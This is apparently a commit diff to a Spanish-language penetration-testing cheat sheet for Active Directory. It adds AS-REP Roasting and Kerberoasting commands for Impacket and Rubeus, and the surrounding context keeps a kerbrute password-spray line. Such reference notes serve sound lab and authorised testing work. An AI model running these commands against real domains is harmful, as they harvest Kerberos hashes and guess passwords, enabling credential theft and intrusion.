

Before and after one commit to srrequiem/Secronomicon, an MkDocs documentation site: the page built from docs/Cheat Sheets/active_directory.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
AD cheatsheet update

````diff
--- a/docs/Cheat Sheets/active_directory.md
+++ b/docs/Cheat Sheets/active_directory.md
@@ -13,6 +13,36 @@
 ```bash
 sudo ntpdate 10.10.11.129
 ./kerbrute passwordspray --dc CONTROLLER.local -d CONTROLLER.local users.txt Password123
+```
+
+## AS-REP Roasting
+
+### Impacket
+
+```bash
+for user in $(cat users.txt); do impacket-GetNPUsers -dc-ip <ip_de_dominio> <dominio>/${user} -no-pass | grep -v Impacket; done
+```
+
+### Rubeus
+
+```powershell
+.\Rubeus.exe asreproast # ¿como admin? Ver si se necesitan credenciales
+# .\Rubeus.exe asreproast /creduser:htb.local\amanda /credpassword:Password123 # TODO Verificar
+```
+
+## Kerberoasting
+
+### Impacket
+
+```bash
+impacket-GetUserSPNs {dominio/usuario:contraseña} -dc-ip {ip de dominio} -request
+```
+
+### Rubeus
+
+```powershell
+.\Rubeus.exe kerberoast # Como Administrator
+.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Password123
 ```
 
 ## BloodHound
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -16,6 +16,7 @@
     - navigation.top
     - navigation.sections
     - navigation.tracking
+    - navigation.expand
 
 extra_css:
   - extra.css
````
